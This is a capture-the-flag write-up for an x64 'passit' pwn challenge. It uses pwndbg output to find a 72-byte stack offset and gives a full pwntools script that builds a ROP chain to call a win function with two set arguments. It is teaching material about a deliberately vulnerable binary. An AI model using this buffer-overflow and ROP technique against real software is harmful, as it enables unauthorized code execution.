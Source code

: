 ```yaml
---
layout: post
date: 2025-07-25 12:23:00 +0300
categories: NCSC-2025 pwn
title: passit
tags: x64 ret2win buffer-overflow ROP
---
```


## Information
- category: pwn
- points: 1000

## Description
> None

## Write-up
This challenge is similar to the classic `baby` pwn challenge but with an important twist: the `win` function requires two parameters (`parm1` and `parm2`) to be set correctly to successfully get the flag. From reversing the binary (see the screenshot below), we can see the function prototype for `win` accepts two arguments. This means a simple return-to-`win` (ret2win) without setting those parameters won’t work:

<img src="/images/baby/Shot-2025-07-26-034940.png" style="border-radius: 14px;">

To craft a proper exploit, we first need to find the exact offset from the input buffer to the saved return address on the stack. Using `pwndbg`, we set a breakpoint right before the vulnerable `fgets` call, which reads user input into the buffer. At this breakpoint, registers and stack pointers give us crucial information about the stack layout. From the debugger output:
```plaintext
Stack level 0, frame at 0x7fffffffdf40:
 rip = 0x401310 in vuln; saved rip = 0x401369
 called by frame at 0x7fffffffdf50
 ...
pwndbg> dist $rax 0x7fffffffdf38
0x7fffffffdef0->0x7fffffffdf38 is 0x48 bytes (0x9 words)
```

-  `$rax` points to the buffer start at `0x7fffffffdef0`. 
-  The saved return address (RIP) is stored at `0x7fffffffdf38`.
-  Calculating the distance between these addresses: `0x7fffffffdf38 - 0x7fffffffdef0 = 0x48` bytes (72 bytes). 


This tells us the return address lies 72 bytes after the start of the buffer. Therefore, to overwrite the return address, we need to overflow the buffer with 72 bytes of filler, then overwrite the next 8 bytes (on x86\_64) with our desired return address.

## Exploit
```python
#!/usr/bin/env python3

from pwn import *

exe = ELF("./passit_patched")

context.binary = exe


def conn():
    if args.LOCAL:
        r = process([exe.path])
        if args.DEBUG:
            gdb.attach(r)
    else:
        r = remote("")

    return r


def main():
    r = conn()

    pop_rdi = 0x401196
    pop_rsi = 0x401199
    ret = 0x401016
    payload = b"A" * 72 + p64(ret) 
    payload+= p64(pop_rdi) + p64(0x435343434e0000) 
    payload+= p64(pop_rsi) + p64(0x5a44494b530000)  
    payload+= p64(exe.symbols.win)

    r.send(payload)
    r.interactive()


if __name__ == "__main__":
    main()
```

## Flag
> Flag:``` ```




